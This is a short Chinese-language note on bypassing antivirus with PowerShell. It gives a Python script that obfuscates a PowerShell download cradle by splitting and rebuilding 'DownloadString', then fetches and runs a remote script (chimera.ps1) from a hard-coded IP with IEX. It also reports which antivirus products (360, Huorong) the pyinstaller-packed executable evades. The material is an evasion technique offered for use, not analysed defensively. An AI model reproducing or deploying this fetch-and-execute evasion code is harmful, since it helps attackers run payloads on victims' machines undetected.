

# Powershell 绕过杀软尝试

## 尝试用python 编译成exe

**时间 2024/3/14**

```
import subprocess

powerShellCommand="$c1='IEX(New-Object Net.WebClient).Downlo';$c2='123(''http://192.168.31.113/chimera.ps1'')'.Replace('123','adString');IEX ($c1+$c2)"
result = subprocess.run('powershell -NoExit {}'.format(powerShellCommand),shell=True )

```

**用pyinstaller 进行打包成exe ,可过360扫描和执行，火绒的静态扫描和执行均无法通过**


